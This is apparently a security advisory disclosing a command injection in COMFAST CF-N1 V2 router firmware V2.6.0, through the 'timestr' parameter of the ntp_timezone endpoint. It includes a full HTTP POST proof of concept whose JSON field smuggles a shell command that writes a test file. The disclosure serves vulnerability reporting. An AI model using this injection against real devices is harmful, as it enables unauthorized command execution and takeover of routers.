

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `ntp_timezone`
PSlSetting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `ntp_timezone` API (`/usr/bin/webmgnt`, function `sub_431C9C`). Attackers can inject arbitrary commands via the `timestr` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.




## Details


*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comf](http://www.comfast.cn/)[ast](http://www.comfast.cn/)[.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.co](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[mfast](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.com](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.cn/in](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[dex.p](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[hp?m=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[conte](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[nt\&c=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[i](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ndex](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[\&a=sh](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ow\&ca](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[tid=3](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[1\&id=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ntp_timezone`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_431C9C` function handling the `ntp_timezone` configuration. Disassembly analysis shows that the user-controlled `timestr` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` before execution by `system_0`.

Key code flow:


1.  User input (including `timestr`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The `timestr` parameter is inserted into command strings using `sprintf_0` (e.g., constructing cron job entries or time-related commands).

3.  The constructed commands are executed via `system_0` without sanitization, allowing injection of arbitrary commands through delimiters like `";`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.


## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File


```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: cflogin.cn
Content-Length: 173
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{ "timestr":"\"; echo time > /www-comfast/test.txt #",
"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"
}
```


*   **Notes**: The vulnerable parameter is `timestr`, exploited using `";` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "time", confirming successful injection.


